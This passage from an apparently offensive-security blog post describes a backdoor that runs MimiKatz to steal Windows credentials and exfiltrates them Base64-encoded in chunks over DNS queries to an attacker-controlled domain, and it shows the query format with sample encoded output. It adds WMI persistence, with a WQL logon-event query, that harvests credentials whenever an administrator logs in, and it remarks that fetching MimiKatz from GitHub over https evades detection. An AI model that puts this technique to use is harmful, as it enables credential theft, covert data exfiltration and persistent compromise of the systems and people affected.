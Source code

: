 Nice thing about the code above? MimiKatz source is being served by Github over https so no detection based on content, known bad host of known bad IP.

DNS is a bit more work 🙂 we need to clean the data and put it into DNS-bite sizes. Next to this we need a more extensive server side in order to re-assemble all the data. Because DNS is a UDP based protocol we can’t assume all requests come in at the same time. The source of this script is available from GitHub. Our client-side code executes the following process:

Our backdoor executes MimiKatz
Retrieves credentials
Base64 all MimiKatz output
Remove the bad chars from the Base64 output
Cut our string into different parts so we can send it
Query the domain with our domain format
mimikatz-dns-powershell

The Powershell script above sends the following DNS queries to our DNS servers:

```
format: <call number>-<totall number of calls>.<data>.<message ID>.<domain>.<tld>
example:
0-10.CiAgLiMjIyMjLiAgIG1pbWlrYXR6IDIuMCBhbHBoYSAoeDg2KSByZWxlYX.zUdgA.domain.nl
1-10.NlICJLaXdpIGVuIEMiIChGZWIgMTYgMjAxNSAyMjoxNzo1MikKIC4jIyBe.zUdgA.domain.nl
2-10.ICMjLiAgCiAjIyAvIFwgIyMgIC8qICogKgogIyMgXCAvICMjICAgQmVuam.zUdgA.domain.nl.
```

I used the same dnslib server code in order to handle the input we keep an array of messages based on it’s message ID. Once all packages are received the script re-adds the bad characters and Base64 decodes it. This time we need quite allot more query’s in order to send our data, a successful exfill will take somewhere around 100 queries. The server side code is available from GitHub.

<img src="/images/wmi07.png" width="600">

The persistence we add in the same manner, only the query differs. We’ll use a query that fires each interactive logon. This could be useful when you own a server, the moment an admin logs in you receive an overview of the available credentials. That MOF file is available from GitHub.
```
SELECT * FROM __InstanceCreationEvent WITHIN 15 WHERE TargetInstance ISA "Win32_LogonSession" AND TargetInstance.LogonType = 2;
```
